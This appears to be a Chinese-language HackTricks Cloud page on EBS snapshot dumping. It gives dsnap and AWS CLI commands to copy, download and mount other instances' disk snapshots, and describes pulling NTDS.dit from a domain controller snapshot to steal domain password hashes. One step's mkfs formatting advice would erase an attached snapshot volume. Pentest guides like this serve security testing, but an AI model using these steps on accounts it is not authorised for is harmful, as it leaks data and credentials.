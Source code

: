 # AWS - EBS快照转储

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

### 本地检查快照
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
**注意**，dsnap不允许您下载公共快照。为了规避这一限制，您可以在您的个人账户中复制该快照，然后下载。
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
有关此技术的更多信息，请查阅[https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

您可以使用Pacu中的模块[ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### 在AWS中检查快照

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
**在您控制下的EC2 VM中挂载它**（必须与备份副本位于同一区域）：

步骤1：转到EC2 –> Volumes，创建您喜欢的大小和类型的新卷。

要执行此操作，请按照以下命令：
- 创建要附加到EC2实例的EBS卷。
- 确保EBS卷和实例位于同一区域。

步骤2：右键单击创建的卷，选择“附加卷”选项。

步骤3：从实例文本框中选择实例。

要执行此操作，请使用以下命令：
- 附加EBS卷。

步骤4：登录到EC2实例，并使用命令`lsblk`列出可用磁盘。

步骤5：使用命令`sudo file -s /dev/xvdf`检查卷是否有任何数据。

如果上述命令的输出显示“/dev/xvdf: data”，则表示该卷为空。

步骤6：使用命令`sudo mkfs -t ext4 /dev/xvdf`将卷格式化为ext4文件系统。或者，您也可以使用命令`sudo mkfs -t xfs /dev/xvdf`来使用xfs格式。请注意，您应该使用ext4或xfs之一。

步骤7：创建一个您选择的目录以挂载新的ext4卷。例如，您可以使用名称“newvolume”。

要执行此操作，请使用命令`sudo mkdir /newvolume`。

步骤8：使用命令`sudo mount /dev/xvdf /newvolume/`将卷挂载到“newvolume”目录。

步骤9：切换到“newvolume”目录并检查磁盘空间以验证卷挂载。

要执行此操作，请使用以下命令：
- 切换到`/newvolume`目录。
- 使用命令`df -h .`检查磁盘空间。此命令的输出应显示“newvolume”目录中的可用空间。

您可以使用Pacu中的模块`ebs__explore_snapshots`来执行此操作。

### 在AWS中检查快照（使用cli）

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### 影子拷贝

拥有 **`EC2:CreateSnapshot`** 权限的任何 AWS 用户都可以通过创建 **域控制器的快照**，将其挂载到他们控制的实例上，并导出 NTDS.dit 和 SYSTEM 注册表文件来窃取所有域用户的哈希值。

您可以使用这个工具自动化攻击：[https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) 或者在创建快照后使用之前的技术之一。

# 参考资料
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的 **公司在 HackTricks 中做广告** 或 **下载 PDF 版本的 HackTricks**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>
